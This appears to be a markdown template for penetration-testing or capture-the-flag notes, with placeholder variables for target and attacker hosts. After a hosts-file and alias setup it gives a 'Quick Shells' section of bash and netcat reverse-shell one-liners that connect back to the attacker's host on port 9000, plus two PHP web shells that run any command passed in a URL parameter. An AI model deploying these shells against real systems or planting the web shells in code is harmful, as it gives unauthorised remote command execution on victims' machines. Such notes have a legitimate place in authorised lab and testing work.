 ## {{TARGET}}

### Update `/etc/hosts`
```bash
{{RHOST}}   {{TARGET}}
```
 
### Set Aliases
```bash
nano ~/.bash_aliases
{{QUICK_DIR}}
source ~/.profile
```

### Quick Shells
#### Unix
```bash
bash -i >& /dev/tcp/{{LHOST}}/9000 0>&1
nc -e /bin/sh {{LHOST}} 9000
nc {{LHOST}} 9000
```

#### PHP
```php
<?php echo shell_exec($_GET['cmd']);?>
<?php echo system($_GET["cmd"]) ?>
```